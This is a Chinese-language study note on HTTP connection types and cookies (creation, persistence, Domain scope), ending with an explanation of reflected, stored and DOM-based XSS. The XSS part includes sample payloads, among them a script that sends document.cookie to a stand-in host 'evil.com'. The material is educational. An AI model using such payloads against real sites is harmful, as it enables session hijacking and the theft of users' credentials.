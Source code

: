 ## 具体应用

![image-20250407102821481](D:\typora图片\image-20250407102821481.png)

短连接：每进行一次HTTP通信就得建一个TCP连接

长连接：建立一次TCP连接就可以进行多次HTTP通信

流水线：流水线是在同一条长连接上连续发出请求，而不用等待响应返回，这样可以减少延迟

## Cookie

用途

> - 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
> - 个性化设置（如用户自定义设置、主题等）
> - 浏览器行为跟踪（如跟踪分析用户行为等）

创建过程

> 1. 服务器发送的响应报文中会有 Set-Cookie字段，客户端会将Cookie内容字段保存到浏览器中
>
> 2. 客户端之后对同一个服务器发送请求时，会从浏览器中取出 Cookie 信息并通过 Cookie 请求首部字段发送给服务器

分类

> - 会话期 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。==只在当前浏览器会话中有效==
> - 持久性 Cookie：有设置过期时间（Expires）或有效期（max-age）就称为持久性的Cookie。==即使浏览器关闭后仍然保留，直到过期==

作用域Domain 

> 规定了当前主机下面的哪些子域名可以接受当前的Cookie
>
>
> 例如：Set-Cookie: token=abc123; Domain=example.com; Path=/; HttpOnly;
> 那么当前主机下面的所有包含example.com的子域名都可以共享Cookie
>
> 会被 example.com、www.example.com、api.example.com 等所有子域共享

Javascript

> 客户端使用Javascript设置Cookie
>
> 用document.cookie来设置Cookie
> 
>
>
> 这样容易招到XSS(跨站脚本攻击)：
>
> 1. 反射型XSS：攻击代码嵌在 URL 里，服务器没做过滤，原样返回给用户 → 浏览器执行
>
> http://example.com/search?q=<script>alert('XSS')</script>
>
> 2. 存储型XSS：恶意脚本被保存到数据库或评论系统、论坛等地方，所有人都会执行这段
>
> <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
>
> 3. DOM型XSS：服务器并没有返回恶意脚本，浏览器自己进行拼接的
>
> http://example.com/#<script>alert('XSS')</script> 
>
> /# 后面的内容是不会被服务器看到的，后面的内容是哈希部分
>
> 前端插入到网页里没有进行任何的转义
